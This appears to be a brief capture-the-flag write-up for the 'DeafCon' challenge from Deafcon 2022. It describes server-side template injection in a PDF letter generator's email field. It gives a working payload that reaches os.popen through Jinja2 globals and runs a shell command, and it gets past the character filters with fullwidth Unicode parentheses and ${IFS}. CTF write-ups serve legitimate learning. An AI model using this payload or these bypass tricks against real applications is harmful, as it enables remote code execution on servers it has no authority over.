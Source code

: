 ## DeafCon 
> Deafcon 2022 is finally here! Make sure you don't miss it.

App have genarate letter pdf function that vulnerable to SSTI on `email` field. After quick fuzzing i detect that email must have '@' and app filter (, ) and space char  
Then i use `UTF8 encoding` to bypass (, ) and `{IFS}` to bypass space in command.  
`test%40{{config.__class__.__init__.__globals__.os.popen%EF%BC%88'cat${IFS}flag.txt'%EF%BC%89.read%EF%BC%88%EF%BC%89}}`  
Flag: ![Alt text](flag.png?raw=true "Title")  